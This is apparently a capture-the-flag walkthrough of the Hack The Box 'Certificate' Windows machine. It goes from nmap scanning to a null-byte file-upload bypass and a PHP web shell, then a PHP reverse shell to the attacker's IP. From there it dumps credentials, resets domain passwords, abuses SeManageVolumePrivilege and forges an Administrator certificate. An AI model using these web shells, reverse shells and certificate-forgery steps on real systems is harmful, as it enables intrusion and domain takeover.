- Machine Name: Certificate
- OS Type: Windows
- Difficulty: Hard

- This is Active Directory based machine
    - Domain Name - certificate.htb
    - DNS computer name - DC01.certificate.htb

> *add Both entries in /etc/hosts file*
> 

### Port Scanning - Service & Version Enumeration

```powershell
# Nmap 7.95 scan initiated Sun Jun  1 08:09:34 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.71
Nmap scan report for 10.10.11.71
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2025-06-01 08:09:35 IST for 825s
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-title: Did not follow redirect to http://certificate.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-01 10:51:22Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-01T10:52:58+00:00; +7h59m45s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-01T10:52:57+00:00; +7h59m45s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-06-01T10:52:58+00:00; +7h59m45s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-01T10:52:57+00:00; +7h59m45s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49709/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49717/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50464/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50770/tcp): CLEAN (Timeout)
|   Check 2 (port 45128/tcp): CLEAN (Timeout)
|   Check 3 (port 43669/udp): CLEAN (Timeout)
|   Check 4 (port 62828/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-06-01T10:52:24
|_  start_date: N/A
|_clock-skew: mean: 7h59m44s, deviation: 0s, median: 7h59m44s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  1 08:23:20 2025 -- 1 IP address (1 host up) scanned in 826.30 seconds
```

## Enumeration

### Port 80/HTTP

port 80 is is running http, open the website on browser



we need to access the website using `certificate.htb` and refresh the page


After visiting website i found login and register button



then i navigate to register 


then under course section i found different course



click, on **Enroll The Course**

and then scrolling down, under Course Outline Section Click on **Quizz-1 Submit** button



we redirected to [upload.ph](http://upload.ph)p page where we might need to submit our assignment



let’s try to upload php file that contains the shell.



it’s clear that the server is checking the extension and MIME type as well, so we need to find another technique to bypass this, after many trials and error and trying different things i found that we could bypass this file upload restriction by using **Null Byte Injection**

but when i tried the Null byte injection i found that the file name remains same, then i assumed that the server  might be encoding the null byte `%00` and then decode it so it remain same

possibly we need to inject null byte programmatically, in this case i’ve used following python script to do that for me

```powershell
import os
import zipfile

#Paths,
zip_path = 'shell.zip'
new_zip_path = 'shell1.zip'
old_filename = 'shell.php'
new_filename = 'shell.php\x00.pdf'

#Open the original ZIP and create a new one,
with zipfile.ZipFile(zip_path, 'r') as zip_read:
    with zipfile.ZipFile(new_zip_path, 'w', compression=zipfile.ZIP_DEFLATED) as zip_write:
        for item in zip_read.infolist():
            original_data = zip_read.read(item.filename)
            # Rename the target file
            if item.filename == old_filename:
                item.filename = new_filename
            zip_write.writestr(item, original_data)

print(f'Renamed {old_filename} to {new_filename} inside {new_zip_path}')
```

so first i created the shell.php with below simple code, after some trial-error i figured out that it blocks the `system` keyword so i’ll go with `shell_exec()` 

```php
<?php
echo shell_exec($_GET['cmd']);
?>
```

then create a zip file that contains this shell.php file inside it

```php
zip -r shell.zip shell.php
```

and then run the [***rewrite.py](http://rewrite.py) -*** `python3 rewrite.py` 

upload the shell1.zip and it successfully uploaded, and we can access the shell by clicking on click here, and then remove .pdf and then we can access the shell



after removing the .pdf extension



Bingo! we got Command execution as xamppuser

after trying several thing to get proper shell i found that windows defender is deleting the netcat (**nc.exe**)

```bash
http://certificate.htb/static/uploads/ebd0473a69a5f33d8a4caa3b1e4f234c/shell.php?cmd=powershell%20%20-c%20iwr%20-uri%20http://10.10.14.32/nc.exe%20-outfile%20\users\public\nc.exe
```

Got connection on the python3 http server



But i am not able to get shell, so i used below php script to get somehow shell so i can run the Powershell command to get stable shell

follow same process for below rev.php as above, make sure to change the name inside script, and start the listener on port 4444

```bash
<?php
$sock = fsockopen("10.10.14.32", 4444);
fwrite($sock, "Connected\n");
while(!feof($sock)) {
    $command = fgets($sock);
    $output = shell_exec($command);
    fwrite($sock, $output);
}
fclose($sock);
?>
```

access the shell php and we got connection on port 4444

still this is not stable and interactive shell, so i used the powershell reverse shell payload from revshells.com



and then copy and paste above powershell encoded comamnd, and run the command



and i got the reverse shell connection on port 445



After gaining access into the system i started enumerating system and  found database credentials, let’s use this to connect to database.

run the `net user`  command to find available user’s in the system



i’ll use the mysql.exe from system to connect to database

```php
mysql.exe -u certificate_webapp_user -pcert!f!c@teDBPWD -e "SHOW DATABASES;"
```



i found the database certificate_webapp_db, let’s use this and run `show tables` command

```php
mysql.exe -u certificate_webapp_user -pcert!f!c@teDBPWD -e "use certificate_webapp_db;show tables;"
```



nice let’s select username and passwords from users table

```php
mysql.exe -u certificate_webapp_user -pcert!f!c@teDBPWD -e "use certificate_webapp_db;select username,password from users;"
```



the above  sara.b user is the user on the Domain Controller (and the Domain), so we need to crack that password, i’ll be using john to crack the password

```bash
john sara_b.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Bingo!, we got the password, let’s use netexec (nxc) to verify if the credentials is valid or not

```php
nxc smb certificate.htb -u 'sara.b' -p 'Blink182'
```



then i tried to enumerate the shares

```php
nxc smb certificate.htb -u 'sara.b' -p 'Blink182' --shares
```



```php
net user sara.b
```



the user is member of `Account Operators` group, the bloodhound also reveals the same thing

```php
bloodhound-python -c all -u sara.b -p Blink182 -d certificate.htb -dc dc01.certificate.htb -ns 10.10.11.71
```



load the gathered information in bloodhound



the account operators has GenericAll on the Non-Protected groups and users, (Except Domain Admins, Administrators and Enterprise Admins etc.

let’s add the sara.b user into Remote Management Users group

```php
net rpc group addmem "Remote Management Users" "sara.b" -U "certificate.htb"/"sara.b"%"Blink182" -S 10.10.11.71
```

and then check for the group members using below command

```php
net rpc group members "Remote Management Users" -U "certificate.htb"/"sara.b"%"Blink182" -S 10.10.11.71
```



now let’s login to Machine as sara.b

```php
evil-winrm -i 10.10.11.71 -u sara.b -p Blink182
```



let’s check which user has logon to the machine, we can check the C:\Users directory for to find which user’s directory presented on the machine



we found the following, [Lion.SK](http://Lion.SK) and Ryan.K user interesting as they are members of Remote Management Users, let’s reset their passwords using net user command

```php
net user Lion.SK "Hacker@123" /domain
```

and same for the Ryan.K

```php
net user Ryan.K "Hacker@123" /domain
```



let’s login as [Lion.SK](http://Lion.SK) and check what we can get

```php
evil-winrm -i 10.10.71.11 -u Lion.SK -p Hacker@123
```



let’s login as Ryan.K user

```php
evil-winrm -i 10.10.11.71 -u Ryan.K -p Hacker@123
```



we have a interesting SeManageVolumePrivilege, a quick google search reveals that we can use the exploit https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe to gain the full access over file system



download the exploit and upoad it to target system

and run the exploit

```php
.\SeManageVolumeExploit.exe
```



now there are 2 ways to abuse this privilege, we can load the malicious dll or try to dump the certificate private key and then use that for forge the administrator account

as the name of machine suggest the intended way is using certificate

```php
certutil -exportPFX my "Certificate-LTD-CA" C:\Users\Ryan.K\Documents\ca.pfx
```



transfer the certificate to our kali machine, and let’s forge the administrator private key

```php
certipy-ad forge -ca-pfx ca.pfx -upn administrator@certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out administrator_forged.pfx
```



let’s use the forge command to forge the Administrator ticket

```php
certipy-ad auth -pfx administrator_forged.pfx -dc-ip 10.10.11.71
```



and we got the KRB_AP_ERR_SKEW (Clock Skew too great)

to solve  this run this comamnd as root - `ntpdate 10.10.11.71`



again run the auth command



let’s use this NTLM hash to authenticate as Administrator

```php
evil-winrm -i 10.10.11.71 -u Administrator -H d804304519bf0143c14cbf1c024408c6
```



## Beyond Root - Another ways

